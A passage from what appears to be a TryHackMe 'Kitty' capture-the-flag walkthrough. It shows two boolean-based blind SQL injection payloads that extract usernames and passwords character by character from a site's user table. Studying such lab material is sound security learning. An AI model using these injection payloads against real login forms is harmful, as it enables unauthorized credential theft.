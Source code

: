 ![](/assets/img/posts/walthrough/tryhackme/2024-10-22-kitty/column_enum-1.png)
![](/assets/img/posts/walthrough/tryhackme/2024-10-22-kitty/column_enum-2.png)

We enumerated three columns which are `id`, `username`, and `password`. We can now dump the content of the username and password columns using the payloads below.
```mysql 
admin' AND (SELECT SUBSTRING(username,1,1) FROM devsite.siteusers LIMIT 0,1)='a'-- -

admin' AND (SELECT SUBSTRING(password COLLATE utf8mb4_bin,1,1) FROM devsite.siteusers WHERE username='kitty')='a'-- -
```